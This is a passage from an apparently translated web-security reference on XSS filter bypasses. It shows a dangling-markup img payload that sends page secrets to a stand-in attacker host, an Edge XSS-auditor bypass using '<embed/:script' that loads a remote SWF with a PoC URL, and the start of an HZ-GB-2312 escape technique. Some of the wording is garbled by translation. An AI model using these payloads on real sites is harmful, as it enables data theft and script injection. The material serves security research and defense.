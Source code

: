 Anything less than this does not lead to script execution, but is allowed to be written and has the potential to be used for attacks to some extent.

### Tags that can send requests to the outside

It is sometimes possible to include confidential information in requests such as images, for example by using open quotes.

[https://vulnerabledoma.in/bypass/text?type=8&q=%3Cimg%20src=%22https://attacker/?data=](https://vulnerabledoma.in/bypass/text?type%3D8%26q%3D%253Cimg%2520src%3D%2522https://attacker/?data%3D)

```html
<p><img src="https://attacker/?data=</p>
<p>This is a secret text.</p>
<p id="x">AAA</p>
```

## bypass

### Using strings disguised as XML namespaces (Edge only)

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. Flash is enabled in the target environment
3. `X-XSS-Protection:1; mode-block`does not have a header

supplement:

Edge will also try to block tags with an XML namespace. `<embed/:script`If such a string is used in normal HTML, it will be interpreted as a script tag instead of being interpreted as an embed tag, and blocking will fail. `X-XSS-Protection:1; mode-block`If the header is attached, the bypass will fail because the cut-off operation will have occurred .

Reference URL:

- [https://masatokinugawa.l0.cm/2016/12/xss9.html](https://masatokinugawa.l0.cm/2016/12/xss9.html)

PoCs:

[https://vulnerabledoma.in/bypass/text?q=%3Cembed/:script%20allowscriptaccess=always%20src=//l0.cm/xss.swf%3E](https://vulnerabledoma.in/bypass/text?q%3D%253Cembed/:script%2520allowscriptaccess%3Dalways%2520src%3D//l0.cm/xss.swf%253E)

```html
<embed/:script allowscriptaccess=always src=//l0.cm/xss.swf>
```

### Using HZ-GB-2312 Escape Sequences

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. `Content-Type`There is no character code specified in the header

Reference URL:

- [https://masatokinugawa.l0.cm/2015/09/xss7.html](https://masatokinugawa.l0.cm/2015/09/xss7.html)
